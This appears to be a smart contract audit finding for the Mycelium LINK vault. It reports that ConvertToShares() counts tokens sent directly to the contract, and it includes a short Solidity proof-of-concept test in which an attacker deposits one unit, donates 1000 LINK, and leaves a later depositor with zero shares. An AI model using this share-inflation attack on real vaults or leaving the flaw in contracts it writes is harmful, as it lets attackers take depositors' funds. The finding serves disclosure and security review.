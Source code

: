 8olidity

medium

# ConvertToShares () uses the LINK of the contract to calculate and may result in a loss of user assets

## Summary
ConvertToShares () uses the LINK of the contract to calculate and may result in a loss of user assets
## Vulnerability Detail
ConvertToShares () uses the LINK of the contract to calculate and may result in a loss of user assets
## Impact
loss of user assets
## Code Snippet
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L614-L619

poc
1. The attacker sends the link to the Vault contract
2. Totalshares is inconsistent with TokenSupply
3. The result of ConvertoShares () is 0, and the user link is lost

```solidity
function testLoss() public {
    // hacker deposits
    link.mint(alice, 1001);
    vm.startPrank(alice);
    link.approve(address(vault), 1);
    vault.deposit(1);
    link.transfer(address(vault),1000);
    vm.stopPrank();

    // Bob deposits
    link.mint(bob, 1);
    vm.startPrank(bob);
    link.approve(address(vault), 1);
    vault.deposit(1);
    vm.stopPrank();

    assertEq(vault.balanceOf(bob),0);
    assertEq(link.balanceOf(bob),0);
}
```
## Tool used

Manual Review

## Recommendation
The contract itself link is not used as the calculation